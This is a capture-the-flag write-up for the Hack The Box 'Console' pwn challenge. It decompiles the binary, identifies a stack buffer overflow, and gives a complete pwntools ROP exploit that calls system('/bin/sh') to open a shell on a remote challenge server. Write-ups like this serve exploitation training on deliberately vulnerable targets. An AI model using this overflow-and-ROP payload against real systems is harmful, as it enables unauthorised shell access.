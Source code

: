 ```yaml
---

title: HTB [HTB CONSOLE] [PWN]

date: 2022-06-03 08:28:05 +0200

categories: [pwn,htb]

tags: [Intro to Binary Exploitation]

---
```


**Analysis:**

```css
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

**main()**
```c
void main(void)

{
  char local_18 [16];
  
  FUN_00401196();
  puts("Welcome HTB Console Version 0.1 Beta.");
  do {
    printf(">> ");
    fgets(local_18,0x10,stdin);
    FUN_00401201(local_18);
    memset(local_18,0,0x10);
  } while( true );
}
```
- main function gets our input and sends it to `FUN_00401201()`


**FUN_00401201()**
```c

void FUN_00401201(char *param_1)

{
  int iVar1;
  char local_18 [16];
  
  iVar1 = strcmp(param_1,"id\n");
  if (iVar1 == 0) {
    puts("guest(1337) guest(1337) HTB(31337)");
  }
  else {
    iVar1 = strcmp(param_1,"dir\n");
    if (iVar1 == 0) {
      puts("/home/HTB");
    }
    else {
      iVar1 = strcmp(param_1,"flag\n");
      if (iVar1 == 0) {
        printf("Enter flag: ");
        fgets(local_18,0x30,stdin);
        puts("Whoops, wrong flag!");
      }
      else {
        iVar1 = strcmp(param_1,"hof\n");
        if (iVar1 == 0) {
          puts("Register yourself for HTB Hall of Fame!");
          printf("Enter your name: ");
          fgets(&DAT_004040b0,10,stdin);
          puts("See you on HoF soon! :)");
        }
        else {
          iVar1 = strcmp(param_1,"ls\n");
          if (iVar1 == 0) {
            puts("- Boxes");
            puts("- Challenges");
            puts("- Endgames");
            puts("- Fortress");
            puts("- Battlegrounds");
          }
          else {
            iVar1 = strcmp(param_1,"date\n");
            if (iVar1 == 0) {
              system("date");
            }
            else {
              puts("Unrecognized command.");
            }
          }
        }
      }
    }
  }
  return;
}
```

- If we enter certain strings it'll give some command like outputs, but if we enter date, it actually executes system command 'date' and gives us output
- Also there's a buffer overflow in 'flag' option
```c
char local_18 [16]
fgets(local_18,0x30,stdin)
```
- but there's no useful functions are there
- So we can't able to get flag easily


**Exploit strategy:**
- There's system function, so we can use that latter
- But we need `/bin/sh` in argument
- So let's use pop rdi to put that value
- We can't directly put that string in rdi gadget, we need to put address of that string, So we need to store that in a place
- We have several inputs, let's store `/bin/sh` in any one of that and point that address in rdi
- Now time to write our exploit


**Exploit script:**

```python
from pwn import *

elf = context.binary = ELF("./htb-console")
p = elf.process()
p = remote('159.65.19.24',30324)
rop = ROP(elf)

p.sendline('hof')
p.sendline('/bin/sh')
p.sendline('flag')

payload = b'A'*24 # junk
payload += p64(rop.find_gadget(['pop rdi','ret'])[0])
payload += p64(0x004040b0) # pointer to /bin/sh
payload += p64(elf.sym['system']) # calling system

p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/tdkEeka.png)
- Cool we got our flag

